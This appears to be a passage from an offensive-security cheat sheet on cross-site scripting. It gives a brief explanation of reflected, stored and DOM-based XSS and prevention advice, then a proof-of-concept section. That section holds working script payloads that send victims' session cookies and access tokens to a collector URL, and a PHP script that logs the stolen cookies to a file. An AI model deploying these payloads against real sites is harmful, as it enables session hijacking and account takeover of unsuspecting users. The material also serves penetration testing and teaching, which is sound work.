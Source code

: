 There are 3 main types of XSS attacks:

* **Reflected XSS**: In a reflected XSS attack, the malicious code is embedded in a link that is sent to the victim. When the victim clicks on the link, the code is executed in their browser. For example, an attacker could create a link that contains malicious JavaScript, and send it to the victim in an email. When the victim clicks on the link, the JavaScript code is executed in their browser, allowing the attacker to perform various actions, such as stealing their login credentials.

* **Stored XSS**: In a stored XSS attack, the malicious code is stored on the server, and is executed every time the vulnerable page is accessed. For example, an attacker could inject malicious code into a comment on a blog post. When other users view the blog post, the malicious code is executed in their browsers, allowing the attacker to perform various actions.

* **DOM-based XSS**: is a type of XSS attack that occurs when a vulnerable web application modifies the DOM (Document Object Model) in the user's browser. This can happen, for example, when a user input is used to update the page's HTML or JavaScript code in some way. In a DOM-based XSS attack, the malicious code is not sent to the server, but is instead executed directly in the user's browser. This can make it difficult to detect and prevent these types of attacks, because the server does not have any record of the malicious code.

To prevent XSS attacks, it is important to properly validate and sanitize user input. This means ensuring that all input meets the necessary criteria, and removing any potentially dangerous characters or code. It is also important to escape special characters in user input before rendering it in the browser, to prevent the browser from interpreting it as code.


## Proof of Concept

When exploiting an XSS vulnerability, it’s more effective to demonstrate a complete exploitation scenario that could lead to account takeover or sensitive data exfiltration. Instead of simply reporting an XSS with an alert payload, aim to capture valuable data, such as payment information, personal identifiable information (PII), session cookies, or credentials.


### Data Grabber

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
